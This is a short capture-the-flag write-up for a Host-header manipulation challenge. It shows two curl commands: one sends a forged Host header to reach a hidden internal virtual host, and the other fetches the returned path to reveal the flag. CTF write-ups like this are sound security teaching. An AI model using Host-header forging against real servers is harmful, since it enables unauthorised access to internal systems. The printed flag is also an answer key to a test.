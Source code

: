 # Research Materials

**Challenge Type: HTTP Host Header Manipulation**  
**Challenge Status: Unsolved**

## Challenge

You want to get the research materials and find out which part of the development goes wrong. The research materials are hidden in the system topsecret.vaccine.dev. How do you get it?  
**Note: All 403s for this challenge are intended. We've tested it.**  
http://research.nypinfsecctf.tk/

## Solution

1. Manipulate the `Host` header
```bash
$ curl --header "Host: topsecret.vaccine.dev" http://research.nypinfsecctf.tk/

/f/Evommgb5azlyCaYMDHW57Q
```

2. Follow the link
```bash
$ curl http://research.nypinfsecctf.tk/f/Evommgb5azlyCaYMDHW57Q

NYP{h0st_h3ad3r_f0rg1ng}
```
